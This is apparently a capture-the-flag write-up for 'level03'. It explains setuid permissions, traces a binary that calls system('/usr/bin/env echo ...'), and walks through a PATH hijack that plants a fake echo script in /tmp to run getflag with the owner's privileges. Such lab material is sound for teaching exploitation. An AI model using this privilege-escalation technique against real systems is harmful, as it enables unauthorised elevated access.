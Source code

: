 # Writeup level03

we have binnary here with suid permissions 



![level03](https://cdn.discordapp.com/attachments/1164485225875783701/1171884278418768003/image.png?ex=655e4d48&is=654bd848&hm=f9f6830ea102c2663e5f8c3330639e8226cec8345541f55d1489a18e74a3b270&)

first let reverse engineering the code and the exploit binnary level03 with suid


level03 permission:

he permissions -rwsr-sr-x on the file level03 indicate the following:

The first character - indicates that it is a regular file.
The next three characters rws indicate the permissions for the owner (flag03).
- r stands for read permission.
- w stands for write permission.
- s stands for the setuid permission, which means that the file will be executed with the privileges of the file owner (flag03).
The next three characters sr- indicate the permissions for the group (level03).
-s stands for the setgid permission, which means that the file will be executed with the privileges of the group owner (level03).
- r stands for read permission.
- - indicates no write permission.
The last three characters r-x indicate the permissions for others.
- r stands for read permission.
- - indicates no write permission.
- x stands for execute permission.

any more details about SUID/SGID ==> https://www.redhat.com/sysadmin/suid-sgid-sticky-bit

let donwload the level03 file to our machine with scp or open server with python:

scp -P 4242 level03@'<machine ip>':/home/user/level03/levl03 .

if we used ltrace to see functions that are used in  this binary we can see :

getegid()                                                                                                                                        = 1000
geteuid()                                                                                                                                        = 1000
setresgid(1000, 1000, 1000, 1)                                                                                                                   = 0
setresuid(1000, 1000, 1000, 1)                                                                                                                   = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <no return ...>
--- SIGCHLD (Child exited) ---

or use binary ninja to reverse the binary file

![level03 main](https://cdn.discordapp.com/attachments/1164485225875783701/1171920869380083823/image.png?ex=655e6f5c&is=654bfa5c&hm=ab8d20009deab70d889538750872a3dbd1f18d2f8c64bee6f2551dffceb242ba&)


`system("/usr/bin/env echo Exploit me");`


system function used to execute the command, which means that the command in our case executes as flag03.

The vulnerability here lies in the fact that the developer of the level03 binary uses an relative path for the `echo` command. We can manipulate echo because, as we know the shell, we can retrieve the path of echo from the environment variable `PATH` and search for the path from left to right.

We can create a new echo executable in the /tmp directory, and our goal is to obtain the `flag03` flag. To achieve this, we only need to execute `getflag` as the flag03 user

like that :
```
#!/bin/bash

getflag
```
![level03 GG](https://cdn.discordapp.com/attachments/1164485225875783701/1171926734539591700/image.png?ex=655e74d2&is=654bffd2&hm=badfeaaf82f0fe37628bf33d5b8212087907529d7baf17361cfc1f0d822cff24&)




